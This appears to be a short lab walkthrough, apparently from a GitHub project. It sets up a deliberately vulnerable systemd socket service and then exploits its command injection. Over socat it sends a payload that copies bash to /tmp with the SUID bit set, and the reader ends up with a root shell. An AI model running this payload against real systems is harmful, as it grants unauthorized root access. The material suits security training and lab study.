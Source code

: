 Write the following instructions:

```shell
[Unit] 
Description=Vulnerable Socket Command Injection Service 

[Service] 
ExecStart=/home/user/socket_injection.py 
StandardInput=socket
```

Now start the socket:

```shell
sudo systemctl start injection.socket
```

Check if the port is listening:

```shell
user@pwn:~$ ss -tnlp | grep 1234
LISTEN   0        4096                   *:1234                *:*    
```

Run the following commands:

```shell
user@pwn:~$ echo "cp /bin/bash /tmp/bash; chmod +s /tmp/bash; chmod +x /tmp/bash;" | socat - TCP:127.0.0.1:1234

user@pwn:~$ ls -l /tmp/bash
-rwsr-sr-x 1 root root 1037528 Nov 15 15:41 /tmp/bash
```

Spawn bash with SUID and print the Effective UID:

```shell
user@pwn:~$ /tmp/bash -p
bash-4.3# whoami
root
```

Remove the bash SUID binary:

```shell
user@pwn:~$ sudo rm /tmp/bash
```
